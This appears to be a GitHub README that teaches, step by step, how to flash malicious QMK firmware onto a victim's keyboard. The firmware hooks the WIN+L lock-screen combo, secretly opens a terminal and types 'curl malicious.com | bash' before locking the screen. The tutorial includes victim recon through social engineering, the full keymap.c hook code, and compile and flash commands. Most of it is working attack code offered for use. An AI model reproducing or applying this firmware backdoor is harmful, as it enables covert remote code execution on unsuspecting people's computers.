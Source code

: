 # QMKhuehuebr
This repo will teach you how to create a "backdoor" on a keyboard using qmk firmware.

## What's QMK?
It's a open source keyboard firmware, read the [documentation](https://docs.qmk.fm) to learn more about. 

## How this "Backdoor" works?
It creates a hook of lock screen bind using the [qmk combo](https://docs.qmk.fm/#/feature_combo?id=combos) feature, so when the user locks the computer, his keyboard will start acting like a [rubberducky](https://www.youtube.com/watch?v=JwLRjNPrO2c) or "possessed" keyboard writting commands by himself.

## Steps to get a Shell
### Keyboard Recon
The more important step is recognize which PCB your victm's keyboard uses, you can do this by,
* Social Engineering
* Opening the keyboard case
* Being a keyboard's guru.

### Get QMK Firmware Project
```bash
git clone https://github.com/qmk/qmk_firmware.git
cd qmk_firmware
util/(linux|macos)_install.sh
```

### Enabling and Configuring Combos feature
Now that you know your victm's keyboard PCB, go to,
`
qmk_firmware/keyboards/<PCB_MODEL>/
`
Then add the line `COMBO_ENABLE = yes` at the last line of file `rules.mk`, to enable the usage of combos and the follow lines at the last line of file `config.h`
```
#define COMBO_COUNT 1
#define COMBO_TERM 300
```
The `COMBO_COUNT` variable is the number of combos/hooks you'll configure, and the `COMBO_TERM` is the time in milliseconds for the firmware detects the key combination/combo.

### Creating the Combos/Hooks
Copy the default keymap to a new keymap named keylogger,
```bash
cd qmk_firmware/keyboards/<PCB_MODEL>/keymaps
mkdir keylogger
cp -R default/* keylogger
cd keylogger/
```
Edit the file `keymap.c` to insert your malicious code after the `#include "action_layer.h"` line, the first thing you need to do is create an enum with your hook name,
```C
enum combo_events {
  LOCK_SCREEN
}
```
Then you need to set the keys combination you want to hook, in this example let's hook the WIN+L lock screen bind,
```C
const uint16_t PROGMEM lock_screen_combo[] = {KC_LGUI, KC_L, COMBO_END};
```
If you want to hook other keys just look at this [qmk documentation page](https://beta.docs.qmk.fm/features/keycodes_basic) where you can find a list with all keyscodes.

### Giving actions to Combos/Hooks
Now the last part of coding is add an action when the firmware detect the combo/hook, for way to do this, let's keep editing the `keymap.c` and declare the function bellow which is responsible for the detection and injection,
```C
void process_combo_event(uint8_t combo_index, bool pressed) {
	switch(combo_index) {
		case LOCK_SCREEN_X:
			if (pressed) {
				// SEND THE COMBINATION KEYS TO OPEN TERMINAL WIN+ENTER
				register_code(KC_LGUI);
				register_code(KC_ENTER);
				// RELEASE THE KEYS TO OPEN THE TERMINAL
				unregister_code(KC_ENTER);
				unregister_code(KC_LGUI);
				//WAIT 500 MILLISECONDS FOR THE TERMINAL OPEN
				_delay_ms(500);

				//SEND COMMAND USING THE MACRO SEND_STRING WHICH SENDS KEYCODE BY KEYCODE WITHOUT DELAY
				SEND_STRING("curl malicious.com \\| bash ; exit" SS_TAP(X_ENTER));

				//SEND THE ORIGINAL KEYCODES RESPONSIBLE TO LOCK THE COMPUTER
				register_code(KC_LGUI);
				register_code(KC_L);
				// RELEASE THE KEYS RESPONSIBLE TO LOCK THE COMPUTER
				unregister_code(KC_L);
				unregister_code(KC_LGUI);
			}
	}
break;
}
```
### Compile the code
go back to the qmk project root directory and run
```bash
make <KEYBOARD_PCB>:keylogger
```
If there was no erros, you did everything right and is ready to move on.

### Boot Mode
In order to put the keyboard on boot mode, follow the QMK [instruction](https://docs.qmk.fm/#/newbs_flashing?id=put-your-keyboard-into-dfu-bootloader-mode)

### Write the malicious firmware
Just run the command,
```bash
sudo make <KEYBOARD_PCB>:keylogger:dfu
```
Now after all these steps you have succefully infected your victms keyboard.

### Learn more about QMK
[RTFM](https://docs.qmk.fm/)

# Example
You can find a more complex example of [keymap.c](xd60/keymaps/keylogger/keymap.c) on this repository.

**IMPORTANT - This file is based on xd60 PCB.**

# Poc 
PoC usign a xd60 PCB

[![CODE_IS_CHEAP_SHOW_ME_THE_DEMO](http://img.youtube.com/vi/CbhiKdS48lc/0.jpg)](http://www.youtube.com/watch?v=CbhiKdS48lc)
